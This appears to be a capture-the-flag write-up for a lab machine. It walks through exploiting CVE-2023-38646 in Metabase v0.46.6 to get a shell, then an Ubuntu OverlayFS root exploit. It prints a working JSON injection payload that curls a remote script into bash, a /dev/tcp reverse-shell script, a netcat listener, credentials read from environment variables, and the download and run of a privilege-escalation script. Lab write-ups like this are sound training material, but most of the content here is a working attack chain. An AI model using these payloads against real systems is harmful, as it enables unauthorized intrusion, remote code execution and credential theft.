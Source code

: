 ## Enumeration

After poking around the website, it leads to a login page from data.analytical.htb
The login page, checking the page source, it shows that the metabase version v0.46.6

After googling there's an exploit CVE-2023-38646
https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646 for more information

According to the link above, it shows that setup-token is visible in the page source
"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"

Or you can curl the following endpoint to get the setup-token: /api/session/properties

## Foothold

The article also states that there's a code injection we can use by submitting a POST request to the following endpoint: /api/setup/validate

```json
{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {curl,http://10.10.14.59:8001/rev.sh}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
So what I did was I created a reverse shell file locally

```bash
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.59/4444 0>&1
```

then setting up reverse shell via `nc -lvnp 4444` AND setting up a file server on port 8001 via `python3 -m http.server 8001`
I sent the POST request to http://data.analytical.htb/api/setup/validate which uses our setup-token to validate with the database, calls the "curl" command to reachout to my local fileserver on port 8001 then execute the shell.

```bash
listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.11.233] 47838
sh: can't access tty; job control turned off
/ $ 
```

## Foothold Enum

After getting access, you see that the user is metabase. Enumerating further, we can see that there's a user credentials in the environmental variable
```bash
/ $ env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=9049d3b1a151
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db
```

Using these credentials, you can SSH into the user
```bash
$ ssh metalytics@10.10.11.233
The authenticity of host '10.10.11.233 (10.10.11.233)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:15: [hashed name]
    ~/.ssh/known_hosts:18: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? ye
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.10.11.233' (ED25519) to the list of known hosts.
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
```

## Priv Escalation
Ubuntu 22.04.3 LTS Jammy has a PE vulnerability: https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

Setting up another fileserver locally and transferring it to the target host, you get root after running the script
```bash
metalytics@analytics:/tmp$ curl http://10.10.14.59:8001/exploit.sh -o exploit.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   558  100   558    0     0   5984      0 --:--:-- --:--:-- --:--:--  6065
metalytics@analytics:/tmp$ ls
exploit.sh      systemd-private-079d0037a92249b7a766ca91bd6e22ba-ModemManager.service-Sb60iJ    systemd-private-079d0037a92249b7a766ca91bd6e22ba-systemd-resolved.service-gimMDj   vmware-root_429-1849429459
ssh-XXXXyisFSO  systemd-private-079d0037a92249b7a766ca91bd6e22ba-systemd-logind.service-vBokr8  systemd-private-079d0037a92249b7a766ca91bd6e22ba-systemd-timesyncd.service-LEskG2
metalytics@analytics:/tmp$ chmod +x exploit.sh
metalytics@analytics:/tmp$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
root@analytics:/tmp# cd /
root@analytics:/# ls
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@analytics:/# cd root
root@analytics:/root# ls
root.txt
root@analytics:/root# cat root.txt
c0dfc800b6129842b2f2be487d994d42
``` 
